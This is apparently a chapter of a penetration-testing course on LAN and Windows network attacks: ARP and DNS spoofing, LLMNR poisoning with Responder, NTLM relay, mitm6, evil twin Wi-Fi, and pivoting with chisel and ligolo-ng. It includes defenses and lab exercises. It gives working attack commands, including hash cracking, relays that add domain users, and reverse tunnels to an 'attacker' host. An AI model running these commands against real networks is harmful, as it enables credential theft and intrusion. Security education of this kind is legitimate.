


# Network attacks

> From a network position (LAN, WiFi, internal segment) you have access to a sharp knife. The security of cleartext traffic collapses; many Windows authentications fall. Understanding these attacks matters for defense too.

## Getting into position on the network

Typical ways to "be in the middle":
- Ethernet cable in the office (with 802.1X NAC disabled or bypassable).
- Public/corporate WiFi (see section 20).
- Rogue access point (evil twin).
- Compromise of a host (then internal "pivoting").
- VPN obtained (stolen credentials, no MFA).
- Container/VM in an org's datacenter.

## ARP spoofing and MITM on the LAN

Principle already covered in section 3. Modern tool: **bettercap**.

```bash
sudo bettercap -iface eth0
# in the REPL:
> net.probe on        # discovers hosts in the segment
> net.show
> set arp.spoof.fullduplex true
> set arp.spoof.targets 192.168.1.50      # the victim
> arp.spoof on
> net.sniff on        # capture
> http.proxy on       # MITM HTTP
> https.proxy on      # MITM HTTPS (with its own cert)
```

Without your CA certificate installed on the victim, HTTPS throws an error. So MITM on HTTPS requires:
- bettercap CA cert imported (e.g. lab with BYOD).
- Victim ignores warning (rare, but in social scenarios...).
- Bug in the client (see historic attacks like ZombieLoad / NSLookup with bad certs).

### Passive sniffing
Even purely passive, in switched LAN with ARP-spoof: everything cleartext (HTTP, FTP, IMAP/POP3 without TLS, syslog) lands in your Wireshark. Identify passwords, tokens in URLs, cookies, downloaded files.

### Defenses
- **DHCP snooping + DAI** (Dynamic ARP Inspection) on enterprise switches.
- **802.1X NAC**: connecting to a port requires auth.
- **VLAN segmentation**.
- **Static ARP** on critical hosts (servers).
- **HSTS + HTTPS everywhere**: makes TLS MITM much harder.
- **DNSSEC + DoH/DoT** to avoid DNS spoof.

## DNS spoofing/poisoning

On a LAN with ARP spoof active, intercept DNS queries and reply with attacker IP.

```bash
# in bettercap
> set dns.spoof.domains *.example.com
> set dns.spoof.address 192.168.1.99   # your IP
> dns.spoof on
```

Victim browses to example.com → ends up on your server.

More realistically in red team: **cache poisoning** of the corporate resolver via Kaminsky-style (mitigated by source port randomization) or via **subdomain takeover** (CNAME pointing to a decommissioned service). More common is **rogue DHCP** setting attacker as DNS server.

## Rogue DHCP / starvation

```bash
# Yersinia / mitm6 / Ettercap have DHCP attack modes.
# DHCP starvation: exhaust the legitimate DHCP pool
> dhcp6.spoof on
```

Once you become the DHCP server of a victim → you control IP, gateway, DNS, **WPAD URL**, NTP.

### WPAD attack
WPAD (Web Proxy Auto-Discovery) looks for the `wpad.dat` file at `http://wpad/wpad.dat`. With rogue DHCP/DNS → victim fetches your wpad → you are the HTTP/S proxy → MITM. Historically "Bad Tunnel" (CVE-2016-3213) also abused WPAD via NetBIOS.

## LLMNR / NBT-NS / mDNS poisoning with Responder

On a poorly configured Windows network, when a host looks for `\\fileserver` but DNS doesn't resolve, it does a **broadcast fallback**: LLMNR (UDP 5355) and NBT-NS (UDP 137). Anyone on the LAN can reply "that's me." The canonical tool: **Responder**.

```bash
sudo responder -I eth0 -wv
```

When the victim authenticates to your "fileserver" (yes, Windows does this by default with its current credentials), you receive an **NTLMv2 challenge-response**. You feed it to hashcat:

```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

In 1 minute on a GPU, weak passwords come out.

### NTLM Relay
Instead of cracking, you **relay** the authentication to another service where the user has access. Tool: **ntlmrelayx.py** (impacket).



```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```

Combined with Responder, the NTLM user gets relayed to an SMB server where they have access → you take command of that server.

To be crowned successful:
- SMB signing disabled on target (SMB1/SMB2 without signing) or SMB signing enabled but not *required* for active relay.
- Often targeted: SMB → Domain Controller (DCSync), LDAP → AD WriteAccess, MSSQL.

### LLMNR/NBT-NS mitigation
- **Disable LLMNR** (GPO).
- **Disable NBT-NS** (PowerShell or GPO via NetBIOS over TCP/IP "Disabled").
- **SMB signing required** everywhere.
- **Channel binding (EPA)** for LDAP/HTTP.
- Defenses in Windows 11/Server 2022: SMB over QUIC, LDAP signing, NTLM relay protection.

## IPv6 attacks with mitm6

Even if you don't use IPv6, it's enabled and Windows prefers it. **mitm6** abuses DHCPv6 to register itself as the victim's DNS server.

```bash
sudo mitm6 -d example.local
sudo ntlmrelayx -6 -wh wpad.example.local -t ldaps://dc.example.local
```

Result: victim looks for WPAD via your DNS → performs NTLM auth → relayed to LDAPS on the DC → you create a new user or add a member to a privileged group.

### Mitigation
- **Disable IPv6** if you really don't use it (and understand the consequences), or
- **DHCPv6 guard** on switches + RA guard.
- **LDAP signing + channel binding** on DCs.

## SSL strip (historical)

Attacker MITMs. Victim does `GET http://bank.com`, server redirects to `https://bank.com`. Attacker: keeps HTTP, talks HTTPS with the server, rewrites content. Victim doesn't see the padlock.

Mitigation: **HSTS** (better still if in the preload list).

## WiFi Evil twin

You create an AP with the same SSID as the corporate or hotel one. Devices that have the network saved attach to the stronger one.

Tools: **hostapd**, **WiFi Pumpkin 3**, **airgeddon**.

Combined with phishing-flavored captive portal → credential harvesting.

In WPA2-Enterprise (802.1X EAP) → **EAP downgrade attacks** (`hostapd-wpe` with self-signed cert → MS-CHAPv2 handshake captured → `asleap`/`crack.sh` to recover the NT hash).

Details in section 20.

## Pivoting — the art of moving

From a foothold (compromised host) reach hosts not routable from outside.

### SSH dynamic tunnel (SOCKS5)
Already seen. Your attacker box has legitimate SSH into the victim network → `ssh -D 1080 user@compromised`. proxychains or foxyproxy configuration → all your traffic goes through the proxy.

```bash
# /etc/proxychains.conf
[ProxyList]
socks5 127.0.0.1 1080
```

```bash
proxychains nmap -sT -Pn 10.10.50.0/24
proxychains curl http://10.10.50.5:8080
```

### Local/Remote SSH forwarding
- **Local (-L)**: local port → remote host. `ssh -L 8080:internal-app:80 user@jump`.
- **Remote (-R)**: port on the jump → your localhost. Useful to expose a service on your attacker machine to the jump server.

### chisel
Server/client in Go. Sets up a tunnel over HTTP/WebSocket → bypasses egress filtering based only on ports.

```bash
# server (on your attacker VPS or Kali)
chisel server -p 8000 --reverse

# client (on compromised host)
chisel client http://attacker:8000 R:1080:socks
```

Creates a reverse SOCKS5 tunnel: you connect to your localhost:1080 and traverse the internal network.

### ligolo-ng (modern) — why it beats proxychains

**The problem with proxychains/SOCKS**: every tool you use must **know how to speak SOCKS** (some do, like curl `--socks5`, others don't, like `arping`, `mtr`, raw traceroute). proxychains *intercepts* `connect()` syscalls and redirects them, but:
- doesn't handle ICMP (no ping/traceroute).
- doesn't handle raw sockets (no sniffing).
- doesn't handle UDP (unless SOCKS5 with UDP, rarely supported).
- some tools repeatedly close and reopen connections → slow.

**ligolo-ng** solves it **at L3**: it creates a **tun interface** on your Kali, and when you route traffic into it, the kernel sends it through a WireGuard-like tunnel to the compromised agent, which "ships" it as real traffic of the internal network.

#### What is a tun interface (the implicit part)

A **tun interface** is a **virtual network card** seen by the kernel as a normal NIC. Difference:
- **tap** = layer 2 (Ethernet frame).
- **tun** = layer 3 (IP packet).

When the kernel writes to `tun0`, the packet doesn't end up on a cable: it arrives at **a userland process** that has opened `/dev/net/tun`. That process decides what to do with it (forward, log, mangle, tunnel).



#### ligolo-ng setup in 30 seconds

```bash
# attacker
./ligolo-ng -selfcert
# (REPL: session, start)

# agent on victim
./agent -connect attacker:11601 -ignore-cert
```

On your machine you see a new interface; `ip route add 10.10.50.0/24 dev ligolo` → all your tools work as if you were inside. **Game changer** compared to proxychains: no more "this tool doesn't support SOCKS."

### sshuttle (poor man's VPN over SSH)
```bash
sshuttle -r user@jump 10.10.0.0/16
```

VPN-like over SSH, without requiring root on the remote (only on the client).

### Windows pivoting
- **netsh portproxy**: `netsh interface portproxy add v4tov4 listenport=445 listenaddress=0.0.0.0 connectport=445 connectaddress=10.10.50.5`.
- **PowerShell Invoke-PortFwd**.
- **plink** (PuTTY CLI) for dynamic SSH from a compromised Windows.
- **Cobalt Strike SOCKS**, **Sliver pivoting**.

## Bluetooth / Zigbee / BLE / 4G (overview)

Section 20 dives deeper. Concepts:
- BLE pairing modes (Just Works, Passkey, OOB) — Just Works is MITM-able.
- BlueBorne (2017), BIAS, KNOB.
- Zigbee key exchange in clear (in some implementations).
- IMSI catcher (Stingray) — illegal in many jurisdictions.

## Exercises

### Exercise 12.1 — ARP spoofing in lab
In an isolated lab with 3 VMs (attacker, victim, gateway):
1. From attacker, `bettercap -iface eth0`, enable arp.spoof.
2. On the victim, `arp -a` before and after. What changes?
3. From attacker `net.sniff`. Generate HTTP traffic on the victim. Do you see it?
4. On the victim, enable "Static ARP entry" for the gateway. Does the attack still work?

### Exercise 12.2 — Responder + crack
In a lab with a Domain Controller + workstation:
1. Run `responder -I eth0` on attacker.
2. On the workstation, access `\\fakeserver\share` (it must fail, but generates the query).
3. Capture the NTLMv2 hash.
4. `hashcat -m 5600 -a 0 hashes.txt rockyou.txt`.
5. How many weak hashes get cracked?

### Exercise 12.3 — NTLM relay
Still in the AD lab:
1. Setup: SMB signing **not** required on a workstation (GPO config).
2. `ntlmrelayx -tf targets.txt -smb2support`.
3. `responder` with `-r off -P off -d off` (disable SMB on Responder, ntlmrelayx handles it).
4. Trigger the login: as the compromised user, dump remote SAM or execute commands.

### Exercise 12.4 — mitm6 + relay
AD lab. Run:
```bash
sudo mitm6 -d example.local --no-ra
sudo ntlmrelayx -6 -wh wpad.example.local -t ldaps://dc.example.local --add-user
```

Explain what happens. What does `--add-user` do?

### Exercise 12.5 — Pivoting with chisel
Setup:
- Attacker: 192.168.1.10 (Kali).
- Pivot host: 192.168.1.20 (compromised).
- Internal: 10.10.50.0/24 (reachable only from the pivot).

Set up chisel reverse SOCKS from the pivot to Kali. From Kali, `proxychains nmap -sT 10.10.50.5`. Does it work?

### Exercise 12.6 — ligolo-ng end to end
Same scenario. Set up ligolo-ng tun mode. From Kali, access an HTTP service on 10.10.50.5:8080 *without* proxychains. Practical difference?

### Exercise 12.7 — TryHackMe rooms
- "Mr Robot" — good AR/network practice.
- "Wreath" — explicit pivoting.
- "Network Services" / "Network Services 2".

### Exercise 12.8 — Blue team side detection
On a network with Suricata IDS, configure rules for:
- ARP anomaly (more than 5 gratuitous ARPs/min from the same MAC).
- LLMNR/NBT-NS active.
- DHCPv6 unexpected.
- Outbound chisel/ligolo over HTTP/WebSocket (distinctive signatures?).

Discuss: which of these is easy to detect? Which is practically invisible?

## Key concepts

1. **In switched LAN**, ARP is the key to "being in the middle."
2. **Responder + ntlmrelayx** are the bread and butter of Windows internal pentesting.
3. **LLMNR/NBT-NS/mDNS** → disable in Windows enterprise.
4. **IPv6 mitm6** is often ignored → game-over in AD.
5. **Modern pivoting: chisel + ligolo** — they surpass proxychains.
6. **SMB signing required + LDAP signing + channel binding** = baseline AD anti-relay hardening.
7. **HTTPS+HSTS** makes L7 MITM hard; L2/L3 and auth remain.

Next up: the Active Directory world in detail.
